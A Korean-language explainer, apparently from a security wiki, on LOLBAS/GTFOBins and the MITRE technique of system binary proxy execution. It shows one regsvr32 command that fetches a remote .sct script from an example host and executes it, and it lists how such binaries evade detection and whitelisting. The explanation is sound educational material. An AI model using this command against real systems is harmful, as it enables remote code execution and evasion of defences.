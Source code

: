 ```yaml
---
description: T1218
---
```


# LOLBAS

LOLBAS (Living Off the Land Binaries, Scripts, and Libraries) 와 GTFOBins는 윈도우/리눅스 운영체제에 기본적으로 탑재되어 있는 바이너리, 스크립트, 그리고 라이브러리들이 어떻게 다양한 공격에 사용될 수 있는지를 모아놓은 프로젝트다.&#x20;

이 개념은 새로운 것이 아니라 공격자들이 이미 운영체제에 있는 바이너리, 스크립트, 그리고 라이브러리 등을 이용해 공격하는 TTP 자체를 LOLBINS 공격이라고도 부른다. 하지만 MITRE ATTACK에 공식적으로 등재되어 있는 TTP 이름은 `System Binary Proxy Execution` - 시스템 바이너리 프록시 실행이다.&#x20;

예를 들어 `regsvr32.exe` 는 윈도우2000 이후 모든 윈도우에 깔려있는 프로그램 중 하나다. 원래는 DLL과 ActiveX를 등록하거나 등록해지하는데 사용되는 프로그램이다. 하지만 공격자들은 이를 악용해&#x20;

```
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
```

와 같은 형태로 외부 호스트에서 `.sct` 파일을 불러온 뒤 안에 내장된 JScript나 VBScript를 실행시킬 수 있다.&#x20;

### 장점&#x20;

공격자의 입장에서 LOLBAS/GTFOBins를 사용하는 것은 다음과 같은 장점이 있다.&#x20;

* 운영체제에 기본적으로 설치되어 있기 때문에 같은 운영체제 (\*nix, windows, macos) 를 사용한다면 바이너리가 무조건적으로 존재할 확률이 높다.&#x20;
* 윈도우 기준 바이너리 PE Authenticode Signature가 마이크로소프트사 앞으로 사인되어 있기 때문에 악성코드 실행 탐지룰을 피하기 쉽다.&#x20;
* 자주 사용되는 바이너리/스크립트/라이브러리라면 로그룰이나 탐지룰이 안만들어졌을 확률이 높다.&#x20;
* 어플리케이션 화이트리스트를 우회할 수 있다.&#x20;

물론 위의 장점은 2022년도 기준으로 거의 없어지기는 했다. LOLBAS/GTFOBins 프로젝트가 운영되며 다양한 기본 프로그램들이 악용될 수 있다는 사실이 많이 퍼졌고, 탐지룰 또한 많이 만들어졌기 때문이다.&#x20;

LOLBAS/GTFOBins 프로젝트가 운영되기 전까지 블루팀들은 이 모든 기본 바이너리 파일들이 어떻게 악용되는지 몰랐었다. 공격자들은 수십, 수백, 수천가지의 기본 프로그램들 중 하나를 골라서 악용할 수 있었고, 이는 대부분 탐지룰을 피해가는데 큰 역할을 했다.&#x20;

### 이 페이지에서는&#x20;

LOLBAS와 GTFOBINS들의 숫자가 너무 많기 때문에 이 페이지에서는 윈도우 타겟을 공격할 때 자주 이용되는 LOLBAS 프로그램들에 대해서 알아본다.&#x20;
